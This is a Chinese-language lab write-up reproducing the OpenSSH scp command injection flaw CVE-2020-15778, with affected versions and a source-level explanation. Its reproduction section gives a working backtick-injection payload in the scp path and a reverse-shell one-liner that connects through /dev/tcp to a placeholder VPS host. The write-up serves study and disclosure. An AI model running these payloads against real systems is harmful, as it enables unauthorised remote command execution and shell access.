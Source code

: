 # OpenSSH 命令注入漏洞（CVE-2020-15778）
## 简介
OpenSSH（OpenBSD Secure Shell）是OpenBSD计划组的一套用于安全访问远程计算机的连接工具。该工具是SSH协议的开源实现，支持对所有的传输进行加密，可有效阻止窃听、连接劫持以及其他网络级的攻击。

OpenSSH 8.3p1及之前版本中的scp的scp.c文件存在命令注入漏洞。该漏洞源于外部输入数据构造可执行命令过程中，网络系统或产品未正确过滤其中的特殊元素。攻击者可利用该漏洞执行非法命令。

## 影响范围
```
产品：Openssh
影响的组件：SCP
漏洞版本：openssh<= openssh-8.3p1
```

## 漏洞环境

## 漏洞复现
docker作为漏洞环境，本机作为攻击机。
从攻击机使用scp拷贝文件到docker，正常是只拷贝文件
```
#使用scp命令将test传送至受害机的tmp文件夹下
scp test root@10.10.xx.xx:/tmp/test.txt
#之后需要输入受害机的密码，输入完成后，文件即传送过去了
```
漏洞点是可以在拷贝文件的同时，进行命令注入：
```
#在攻击机上通过特殊符号 ` 进行远程命令注入攻击
scp -P 20022 test root@127.0.0.1:'`touch /tmp/flag.sh`/tmp/test'
```
![](media/16328846646584/16328862895841.jpg)
受害机docker中，发现**命令执行**，且文件传输过来。
![](media/16328846646584/16328960055170.jpg)

使用该方式反弹shell：
```
scp -P 20022 test root@127.0.0.1:'`bash -i &>/dev/tcp/xx.vps.ip.xx/8899 <&1`/tmp/test'
```
![](media/16328846646584/16328963953426.jpg)

![](media/16328846646584/16328963738921.jpg)
复现完成。该漏洞稍微**有点鸡肋**，需要知道ssh的账户密码，因此只能在在特定环境下使用，如**虽然知道ssh账户密码，但是通常的ssh连接被阻止了。** 这个时候我们就可以利用这个漏洞进行连接。

## 漏洞原理
在上述过程中，scp会使用”-t“参数来获取存储传入文件的路径，如下：
```
scp Filename user@host:directory/Filename
```
在上述过程中，scp会使用”-t“参数来获取存储传入文件的路径，如下：
```
scp -t directory/Filename
```
![](media/16328846646584/16329071439864.jpg)
问题就出在这个地方，也就是"scp.c"文件的991行，如图。这个地方未对传入的文件路径进行检测防护。攻击者可以使用反引号包裹payload然后加上文件名执行scp命令，这时，payload将会发送到远程服务器并执行。



## 参考链接
* [CVE-2020-15778漏洞复现](https://www.jianshu.com/p/2a0ea4fec92a)